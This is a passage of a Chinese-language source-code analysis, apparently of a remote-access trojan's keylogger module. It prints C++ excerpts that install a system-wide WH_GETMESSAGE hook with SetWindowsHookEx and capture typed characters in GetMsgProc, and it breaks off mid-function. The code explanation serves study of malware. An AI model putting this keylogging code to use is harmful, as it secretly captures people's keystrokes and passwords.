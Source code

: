```
    {
        //		CloseHandle(CreateFile( strKeyboardOfflineRecord, GENERIC_WRITE, FILE_SHARE_WRITE, NULL,CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL));
        //		g_bSignalHook = true;
        int i = 0;
        g_bSignalHook = i;
    }
    //		g_bSignalHook = false;

    while (1)
    {
        while (g_bSignalHook == 0)
        {
            Sleep(100);
        }
        CKeyboardManager::StartHook();
        while (g_bSignalHook == 1)
        {
            CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);
            Sleep(100);
        }
        CKeyboardManager::StopHook();
    }

    return 0;
}
```

其核心的代码是安装一个类型为 **WH_GETMESSAGE** 的Windows Hook （钩子） 的 **CKeyboardManager::StartHook()**：

```
//KeyboardManager.cpp 313行
bool CKeyboardManager::StartHook()
{
    //...无关代码省略...
    m_pTShared->hGetMsgHook = SetWindowsHookEx(WH_GETMESSAGE, GetMsgProc, g_hInstance, 0);
    //...无关代码省略

    return true;
}
```

**WH_GETMESSAGE** 类型的钩子会截获钩子所在系统上的所有使用 **GetMessage** 或 **PeekMessage** API 从消息队列中取消息的程序的消息。拿到消息后，对消息的处理放在 **GetMsgProc** 函数中：

```
//KeyboardManager.cpp 167行
LRESULT CALLBACK CKeyboardManager::GetMsgProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    TCHAR szModule[MAX_PATH];

    MSG*	pMsg;
    TCHAR	strChar[2];
    TCHAR	KeyName[20];
    CKeyboardManager::MyGetModuleFileName(NULL, szModule, MAX_PATH);
    LRESULT result = CallNextHookEx(m_pTShared->hGetMsgHook, nCode, wParam, lParam);
    CKeyboardManager::MyGetShortPathName(szModule, szModule, MAX_PATH);

    pMsg = (MSG*)(lParam);
    // 防止消息重复产生记录重复，以pMsg->time判断
    if (
        (nCode != HC_ACTION) ||
        ((pMsg->message != WM_IME_COMPOSITION) && (pMsg->message != WM_CHAR)) ||
        (m_dwLastMsgTime == pMsg->time)
        )
```